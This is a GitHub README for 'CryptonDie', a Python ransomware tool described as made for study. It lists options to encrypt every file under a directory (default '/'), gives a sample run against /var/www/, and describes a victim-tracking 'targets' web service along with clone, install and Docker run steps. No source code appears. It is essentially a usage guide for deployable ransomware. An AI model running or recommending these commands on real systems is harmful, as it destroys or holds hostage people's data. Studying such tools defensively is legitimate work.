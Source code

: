 # CryptonDie

<p align="center">
  <h3 align="center">CryptonDie</h3>
  <p align="center">CryptonDie is a ransomware developed for study purposes.</p>

  <p align="center">
    <a href="https://twitter.com/gmdutrax">
      <img src="https://img.shields.io/badge/twitter-@gmdutrax-blue.svg">
    </a>
  </p>
</p>

<hr>

### Options

```text
    --key       key used to encrypt and decrypt files, default is random string(recommended)
    --dir       Home directory for the attack, default is /
    --encrypt   Encrypt all files
    --decrypt   Decrypt all files
    --verbose   Active verbose mode, default is False

Example:
    python3 cryptondie.py --web-service http://127.0.0.1:5000 --dir /var/www/ --encrypt --verbose

```

### Web service endpoints

```
GET   - /targets              - list all targets (returns in JSON format)
GET   - /targets/<target_id>  - list one target by id (returns in JSON format)
POST  - /target/<target_id>   - create new target
```

<hr>

## how to run?

### Clonning repository

```
git clone https://github.com/gmdutra/cryptondie
```

### Install requirements

```
pip3 install -r requirements.txt
```

### Running web service

```
cd cryptondie/discovery
python3 service_discovery.py
```

### Running in Docker

```bash
docker build -t cryptondie .
docker run -it cryptondie /bin/bash
python cryptondie.py --web-service http://127.0.0.1:5000 --dir /var/www/ --encrypt --verbose
```

### which encryption is implemented?

```text
Advanced Encryption Standard
```

### Contact

```text
[+] Telegram:   @gmdutra
[+] Github:     https://github.com/gmdutrax
[+] Twitter:    https://twitter.com/gmdutra
[+] Blog:       https://gmdutra.github.io
```

<p align="center">
  <p align="center">chaos is order yet undeciphered.</p>
</p>
